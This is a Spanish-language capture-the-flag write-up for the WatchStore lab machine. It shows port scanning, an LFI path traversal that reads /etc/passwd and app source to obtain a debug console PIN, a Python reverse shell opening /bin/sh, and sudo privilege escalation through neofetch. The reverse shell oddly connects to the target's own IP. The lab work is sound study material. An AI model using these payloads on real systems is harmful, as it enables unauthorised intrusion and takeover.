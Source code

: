 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TheHackersLabs
  - Easy
  - HTTP
  - FuzzingWeb
  - LFI
  - ReverseShell
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#LFI (Local File Inclusion)|LFI (Local File Inclusion)]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina WatchStore

>En esta publicación, comparto cómo resolví la máquina **WatchStore** de [The Hackers Labs](https://labs.thehackerslabs.com/machine/111).

---
## Enumeración
### Ping

`ping -c 1 192.168.1.97`

![[Pasted image 20250803114247.png]]

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.97 -oG allPorts`

![[Pasted image 20250803114335.png]]

`nmap -p22,8080 -sCV 192.168.1.97 -oN targeted`

![[Pasted image 20250803114356.png]]
### HTTP

Se añade al `/etc/hosts`: `"192.168.1.97 watchstore.thl"`.

`echo "192.168.1.97 watchstore.thl" >> /etc/hosts`

`http://watchstore.thl:8080/`

![[Pasted image 20250803114634.png]]
#### Fuzzing Web

`dirb http://watchstore.thl:8080/`

![[Pasted image 20250803114715.png]]

---
## Explotación
### LFI (Local File Inclusion)

`http://watchstore.thl:8080/read`

![[Pasted image 20250803115007.png]]

`http://watchstore.thl:8080/read?id=../../../../../../../../../../etc/passwd`

![[Pasted image 20250803115033.png]]

Se identifica el usuario: `relox`.

`http://watchstore.thl:8080/console`

Nos pide un PIN para poder acceder a la consola.

![[Pasted image 20250803120800.png]]

`http://watchstore.thl:8080/read?id=/home/relox/watchstore/app.py`

![[Pasted image 20250803115222.png]]

El PIN es `612-791-734`.
### Reverse Shell

Ahora que ya tenemos acceso a la consola interactiva de *Python*. Se procede a realizar una *reverse shell*.

`nc -nlvp 1236`

Se introduce en la consola lo siguiente:

```Python
import socket, subprocess, os

s = socket.socket()
s.connect(("192.168.1.97", 1236))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh"])
```

![[Pasted image 20250803115706.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250803115750.png]]

Se encuentra el binario: `/usr/bin/neofetch`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo).

![[Pasted image 20250803115845.png]]

`cd /tmp`

```bash
echo 'exec /bin/sh' > escalation.sh
sudo neofetch --config escalation.sh
```

![[Pasted image 20250803115930.png]]

---